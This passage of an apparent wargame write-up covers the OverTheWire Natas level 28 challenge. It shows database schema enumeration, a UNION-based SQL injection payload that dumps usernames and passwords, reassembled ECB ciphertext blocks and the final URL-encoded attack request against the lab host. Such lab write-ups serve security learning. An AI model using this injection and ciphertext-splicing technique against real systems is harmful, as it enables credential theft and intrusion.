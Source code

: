 should give us a more interesting result. It starts something like this:  

```text
information_schemaADMINISTRABLE_ROLE_AUTHORIZATIONSGRANTEE  
information_schemaADMINISTRABLE_ROLE_AUTHORIZATIONSGRANTEE_HOST  
information_schemaADMINISTRABLE_ROLE_AUTHORIZATIONSHOST  
information_schemaADMINISTRABLE_ROLE_AUTHORIZATIONSIS_DEFAULT  
```


But the last one are more interesting:  

```text
natas28jokesjoke  
natas28userspassword  
natas28usersusername  
```

Looks like, we have a database named 'natas28', with a table, named 'users' and 'jokes' (the table where the original query runs). The 'jokes' table contains a column named 'joke', and the 'users' table contains two columns, named 'password' and 'username'. We are interested in these columns, of course. Let's craft another query with the following content:  
```sql
                                                         '                    UNION ALL SELECT CONCAT(username,password) FROM users;#
```
A sample query can be found for this in the file, named `task28_part_5.php`.  
Again, the process is the same. Let's look at the results:  

```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb  
1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL  
2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAqPO9r+PvLUttg8K8aLhTd  
bearVlfgZC7wCbvdVDKez1sBopgC6Gs7Dx0u0YkP+RVBwJjEus3F7ZNXVk5RBd1+  
ZNDcyGglNpKt/L03ltG/ig==  
```


So, after reassembling, leaving the second block out:  
```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAqPO9r+PvLUttg8K8aLhTdbearVlfgZC7wCbvdVDKez1sBopgC6Gs7Dx0u0YkP+RVBwJjEus3F7ZNXVk5RBd1+ZNDcyGglNpKt/L03ltG/ig==
```
After url encoding:  
```text
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAqPO9r%2BPvLUttg8K8aLhTdbearVlfgZC7wCbvdVDKez1sBopgC6Gs7Dx0u0YkP%2BRVBwJjEus3F7ZNXVk5RBd1%2BZNDcyGglNpKt%2FL03ltG%2Fig%3D%3D
```

The full URL should be:  
```text
http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb2dPBxTZC%2BbWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZAqPO9r%2BPvLUttg8K8aLhTdbearVlfgZC7wCbvdVDKez1sBopgC6Gs7Dx0u0YkP%2BRVBwJjEus3F7ZNXVk5RBd1%2BZNDcyGglNpKt%2FL03ltG%2Fig%3D%3D
```
